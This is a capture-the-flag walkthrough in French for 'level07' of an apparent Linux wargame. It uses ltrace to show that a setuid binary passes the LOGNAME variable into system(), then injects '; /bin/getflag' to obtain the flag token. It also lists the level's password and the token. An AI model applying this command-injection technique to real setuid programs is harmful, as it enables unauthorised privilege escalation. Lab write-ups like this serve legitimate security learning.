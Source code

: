 # LEVEL 07

**LOGIN: level07**

**PASSWORD: wiok45aaoguiboiki2tuin6ub**

 ----
 
 ```
  ls -l ; echo ; file level07 
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07

level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x26457afa9b557139fa4fd3039236d1bf541611d0, not stripped
```

```
./level07 
level07
```
 
 On sait qu'on a une variable d'environnement `LOGNAME=level07`
 
Pour test : 
```
LOGNAME=toto ./level07
toto
```

``` 
ltrace ./level07 
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                             = 2007
geteuid()                                             = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)   = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)   = 0
getenv("LOGNAME")                                     = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff62, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
```

La chaine `/bin/echo level07` a une len de 18, comme le retour de asprintf.

Pour test :
``` 
LOGNAME=toto ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                             = 2007
geteuid()                                             = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)   = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)   = 0
getenv("LOGNAME")                                     = "toto"
asprintf(0xbffff744, 0x8048688, 0xbffff916, 0xb7e5ee55, 0xb7fed280) = 15
system("/bin/echo toto "toto
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                = 0
+++ exited (status 0) +++
```

`system` est donc appelé avec le retour asprintf, on peut donc injecter une commande dans le subshell

```
LOGNAME="; /bin/getflag" ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

**TOKEN: fiumuikeil55xe9cu4dood66h**




